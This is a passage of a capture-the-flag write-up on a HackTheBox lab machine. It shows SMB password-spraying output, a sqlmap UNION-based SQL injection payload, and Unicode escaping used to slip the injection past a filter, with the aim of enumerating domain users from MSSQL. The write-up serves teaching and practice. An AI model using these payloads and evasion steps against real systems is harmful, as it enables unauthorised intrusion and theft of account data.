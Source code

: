     SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\kpage:password1 STATUS_LOGON_FAILURE 
    ...[snip]...
    

### Dump Domain Users

A bit stuck, I eventually turned back to the database and [this
article](https://blog.netspi.com/hacking-sql-server-procedures-
part-4-enumerating-domain-accounts/) on how to dump domain users from MSSQL.
It shows how to do it through intended interactions with the database, and at
the very end through Metasploit / SQLi.

#### Back to Manual

Given that I’m going into new territory, I decided to go back to manual SQLi
at this point. I have the example query from `sqlmap` for UNION 5 columns:

    
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CHAR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR(111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}
    

If I look at that query, it’s clearly putting 58 into columns 1, 2, 3, and 5,
and then some long string in column 4.

There’s also this warning:

    
    
    [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    

The easiest place I found to work was
[CyberChef](https://gchq.github.io/CyberChef/), where I could use the Escape
Unicode Characters recipe, and then just update the input and copy out the
result:

![image-20200331063716896](https://0xdfimages.gitlab.io/img/image-20200331063716896.png)

Throwing that into Repeater, the injection works:

![image-20200331063743518](https://0xdfimages.gitlab.io/img/image-20200331063743518.png)

I can see the static string in the `email field`.

#### Get Default Domain

First step is to get the domain name with `SELECT DEFAULT_DOMAIN()`. I can
just replace all the static `CHAR` with that query to get:
